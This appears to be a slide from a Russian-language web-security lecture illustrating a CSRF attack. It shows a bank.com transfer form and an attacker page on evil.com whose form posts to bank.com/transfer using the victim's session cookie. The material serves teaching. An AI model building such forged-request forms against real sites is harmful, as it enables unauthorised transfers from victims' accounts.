

# Cross-site request forgery (CSRF): атака
1. Форма на сайте bank.com, отправляется с авторизационной cookie в заголовке
<form method="POST" action="/transfer">
    <input type="text" name="to_account" />
    <input type="text" name="amount" />
    <input type="submit" />
</form>
2. Злоумышленник заманивает авторизованного на сайте банка пользователя на сайт evil.com со следующей формой (и сам её отправляет):
<form method="POST" action="https://bank.com/transfer">
    <input type="text" name="to_account" />
    <input type="text" name="amount" />
    <input type="submit" />
</form>